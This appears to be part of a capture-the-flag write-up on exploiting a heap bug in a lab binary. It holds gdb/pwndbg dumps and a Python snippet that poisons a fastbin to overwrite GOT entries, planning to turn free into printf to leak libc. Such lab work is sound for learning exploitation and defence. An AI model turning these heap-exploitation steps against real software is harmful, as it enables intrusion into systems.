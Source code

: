 ```gdb -q -p `pidof pwn` -ex "b *0x400A6F" -ex "b"*0x400AB8 -ex "c"```
before 2nd malloc, 0x601ffa is waiting to malloc
```
pwndbg> x/40gx 0xbf7000
0xbf7000:	0x0000000000000000	0x0000000000000021
0xbf7010:	0x0000000000400896	0x00000000004008b1
0xbf7020:	0x0000000000000000	0x0000000000000061
0xbf7030:	0x7878787878787878	0x7878787878787878
0xbf7040:	0x7878787878787878	0x7878787878787878
0xbf7050:	0x7878787878787878	0x7878787878787878
0xbf7060:	0x7878787878787878	0x7878787878787878
0xbf7070:	0x7878787878787878	0x7878787878787878
0xbf7080:	0x0000000000000000	0x0000000000000061
0xbf7090:	0x0000000000601ffa	0x0000000000000000
0xbf70a0:	0x0000000000000000	0x0000000000000000
0xbf70b0:	0x0000000000000000	0x0000000000000000
0xbf70c0:	0x0000000000000000	0x0000000000000000
0xbf70d0:	0x0000000000000000	0x0000000000000000
0xbf70e0:	0x0000000000000000	0x0000000000020f21
0xbf70f0:	0x0000000000000000	0x0000000000000000
0xbf7100:	0x0000000000000000	0x0000000000000000
0xbf7110:	0x0000000000000000	0x0000000000000000
0xbf7120:	0x0000000000000000	0x0000000000000000
0xbf7130:	0x0000000000000000	0x0000000000000000
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x601ffa ◂— 0x154000007fb2ef45
0x70: 0x0
0x80: 0x0
```
after 2nd read, the offset is 14
 ```
pwndbg> got

GOT protection: Partial RELRO | GOT functions: 12
 
[0x602018] free@GLIBC_2.2.5 -> 0x6161616161636161 ('aacaaaaa')
[0x602020] puts@GLIBC_2.2.5 -> 0x6161616161646161 ('aadaaaaa')
[0x602028] __stack_chk_fail@GLIBC_2.4 -> 0x6161616161656161 ('aaeaaaaa')
[0x602030] printf@GLIBC_2.2.5 -> 0x6161616161666161 ('aafaaaaa')
[0x602038] close@GLIBC_2.2.5 -> 0x406161
[0x602040] read@GLIBC_2.2.5 -> 0x7f37f025f310 (read) ◂— cmp    dword ptr [rip + 0x2d2429], 0
[0x602048] __libc_start_main@GLIBC_2.2.5 -> 0x7f37f0188750 (__libc_start_main) ◂— push   r14
[0x602050] malloc@GLIBC_2.2.5 -> 0x7f37f01ec180 (malloc) ◂— push   rbp
[0x602058] setvbuf@GLIBC_2.2.5 -> 0x7f37f01d7e80 (setvbuf) ◂— push   rbp
[0x602060] open@GLIBC_2.2.5 -> 0x400766 (open@plt+6) ◂— push   9 /* 'h\t' */
[0x602068] atoi@GLIBC_2.2.5 -> 0x7f37f019ee90 (atoi) ◂— sub    rsp, 8
[0x602070] exit@GLIBC_2.2.5 -> 0x400786 (exit@plt+6) ◂— push   0xb /* 'h\x0b' */
pwndbg> cyclic -n 8 -l aacaaaaa
14
```
change free to printf to leak libc address, only change 6 bytes to avoid overwriting puts, because there is another off-by-one issue.
```python
add(0x50, '000000')
add(0x50, '111111')

delete(1)
edit(0, 0x100, flat('x' * 0x50, 0, 0x61, 0x601ffa))

add(0x50, '222222')
# add(0x50, cyclic(n=8, length=0x30))
```